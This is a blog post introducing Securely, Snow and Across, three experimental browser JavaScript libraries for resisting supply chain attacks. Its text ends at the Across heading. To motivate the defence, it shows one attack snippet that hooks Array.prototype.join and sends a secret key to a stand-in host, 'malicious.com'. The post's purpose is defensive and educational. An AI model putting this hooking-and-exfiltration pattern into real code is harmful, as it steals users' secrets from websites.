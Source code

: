 ```yaml
---
layout: page
title: My contribution attempt to the browser javascript supply chain attack problem
url: https://weizman.github.io/
date: 18/07/2021
description: Introducing Securely, Snow and Across to help fight browser javascript supply chain attacks
keywords: browser, javascript, supply chain attack, security, xss, securely, snow, across
---
```


## Introducing Securely 🔒, Snow ❄️ and Across ↔

> *tl;dr - Today I share my "side project" for the past year, three browser javascript security libraries that aim to perform as
platforms for creating web apps that are more resilient to and limiting of unwanted code execution such as XSS and javascript supply chain attacks:*

#### [Across ↔](https://github.com/weizman/across)

Across standard allows different scripts within the same web application to communicate with each other by passing messages between one another securely.

[🎬 Live Demo](https://weizman.github.io/across/demo/) | 
[📖 Technical explanation](https://github.com/weizman/across/wiki/Introducing-Across#across-technically-explained) | 
[⚙️ Installation and usage](https://github.com/weizman/across#install) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/across) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/across/wiki/Introducing-Across)

#### [Snow ❄️](https://github.com/weizman/snow)

Snow aspires to standardize how to recursively own newborn windows within a browser webpage, from the context of the webpage itself.

[🎬 Live Demo](https://weizman.github.io/snow/demo/) | 
[📖 Technical explanation](https://github.com/weizman/snow/wiki/Introducing-Snow#why-snow-solves-a-non-trivial-problem) | 
[⚙️ Installation and usage](https://github.com/weizman/snow#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/snow) | 
[💪🏻 Motivation behind this project](https://github.com/weizman/snow/wiki/Introducing-Snow)

#### [Securely 🔒](https://github.com/weizman/securely)

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app.

[🎬 Live Demo](https://weizman.github.io/securely/demo/) | 
[📖 Technical explanation](https://github.com/weizman/securely#securely-technically-explained-whats-the-s-suffix-for) | 
[⚙️ Installation and usage](https://github.com/weizman/securely#usage) | 
[👩🏽‍💻 Source Code](https://github.com/weizman/securely)

**`Across` is built on top of `Snow`. Both `Across` and `Snow` are built on top of `Securely`.**

**⚠️ These technologies are currently experimental!**

## The [Supply Chain Attacks](https://www.google.com/search?q=javascript+website+supply+chain+attack) Problem

In general, the ability to execute unwanted code within a website is still a major problem.
Doing so with XSS is less common these days, but with infection of the supply chain web apps which is a rising issue, it's still very much possible.

To prevent such attacks, there are many different areas to defend. 
In my attempt, I focus on the real time prevention in the browser. 
Or in other words, what can attackers do once they successfully run within the website in the browser, and what I can do to make it harder for them?

### [Securely 🔒](https://github.com/weizman/securely)

One thing attackers can do is to use the native option of javascript to override builtin functionalities and by that potentially have
the website legit code go through their malicious hooks and leak sensitive information:

```javascript
/* supply chain attack */

const desc = Object.getOwnPropertyDescriptor(Array.prototype, 'join');
const join = desc.value;
desc.value = function(separator) {
    const ret = join.call(this, separator);
    fetch('https://malicious.com/steal-key?key=' + ret);
    return ret;
}
Object.defineProperty(Array.prototype, 'join', desc);
```

```javascript
/* website legit code */

function constructKey() {
  const keyParts = getSecretKeyParts();
  // this goes through attacker's hook!
  const key = keyParts.join('-');
  return key;
}
```

To that problem there are different approachs that are currently being pushed on.

For example, the approach taken by [Consensys](https://github.com/consensys) [MetaMask](https://github.com/metamask)'s [LavaMoat](https://github.com/lavamoat)
which runs on [Endo](https://github.com/endojs)'s [SES](https://github.com/endojs/endo) technology is the lockdown method, which is generally 
to freeze the ability to apply such hooks in the first place to prevent such attacks exactly.

**A lax alternative to this approach is [Securely 🔒](https://github.com/weizman/securely).**

Securely permits the web app and all js code that runs within it to apply such hooks out of belief that
these hooks are a legitimate and unseparatable part of the service provided by many third party vendors, especially in websites.

Instead, **Securely allows you to declare what native functionalities you might need to use in your web app** that you want to avoid any potential hooks
and **grants you exculsive access to them when needed:**

```javascript
const secure = require('@weizman/securely');
const securely = secure(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        'Array': ['includes', 'push', 'join'],
    }
});
```

So to go back to the example above, if you need to use `Array.prototype.join` native API to safely construct your key, but still want to allow legitimate
js code in your website to hook it for whatever reason, you can use Securely to achieve that:

```javascript
/* website legit code using Securely */

function constructKey() {
  const keyParts = getSecretKeyParts();
  // this does NOT goes through attacker's hook!
  const key = securely(() => keyParts.joinS('-')); // 'S' stands for Securely!
  return key;
}
```

This infect allows you to avoid potential hooks or go through them when needed, depends on the usecase, which can be very affective 
against supply chain attacks when executing sensitive operations.

> *To dive into Securely and learn more about this, its source code, how to install and use, how and why it works and designed*
> *the way it is and to see a live demonstration of how it works refer to the resources [listed above](#securely-)*

### [Snow ❄️](https://github.com/weizman/snow)

Another thing attackers can do is the opposite of what Securely comes to defend against - let me explain.

There are already third party vendors that offer security services to websites against supply chain attacks by hooking sensitive
APIs in the website (just like attackers do) in order to track their usage and discover malicious activity.

So for example, if attackers might use `fetch` API to exfiltrate sensitive information from the website, these vendors hook
`fetch` API so that attackers go through them and by that can observe/block such malicious activity.

The problem with that approach is `iframes`

When creating a new `iframe`, a new `window` is attached to it, with all the usual APIs the top window exposes.
So if such a security vendor hooks `fetch` API to catch attackers, the attackers can easily avoid that hook by creating
a new iframe and pulling out of there a brand new `fetch` API.

**By granting you the very first right of execution on every new iframe that 
comes to life within the web app, [Snow ❄️](https://github.com/weizman/snow) comes to solve exactly that.**

So if security vendors used to hook fetch like this:

```javascript
const realFetch = window.fetch;
window.fetch = function(arg1, arg2, arg3) {
    console.log('fetch activity logged, might be an attacker', arg1, arg2, arg3);
    return realFetch.call(this, arg1, arg2, arg3);
};
```

With Snow you can now apply that code to every new iframe that comes to life within the app:

```javascript
const snow = require('@weizman/snow');
snow((win) => {
    const realFetch = win.fetch;
    win.fetch = function(arg1, arg2, arg3) {
        console.log('fetch activity logged, might be an attacker', arg1, arg2, arg3);
        return realFetch.call(this, arg1, arg2, arg3);
    };
});
```

Snow is a security driven project - it aspires to cover all techniques there are to creating new iframes, and it makes sure its
internal functionality is secure by calling sensitive operations via `Securely`.

Snow aspires to set a new standart hermatic solution to nested ownership of windows in a webpage. Therefore, snow is very useful
to a lot of other purposes, in and outside of the security field.

> *To dive into Snow and learn more about this, its source code, how to install and use, how and why it works and designed*
> *the way it is and to see a live demonstration of how it works refer to the resources [listed above](#snow-)*

### [Across ↔](https://github.com/weizman/across)

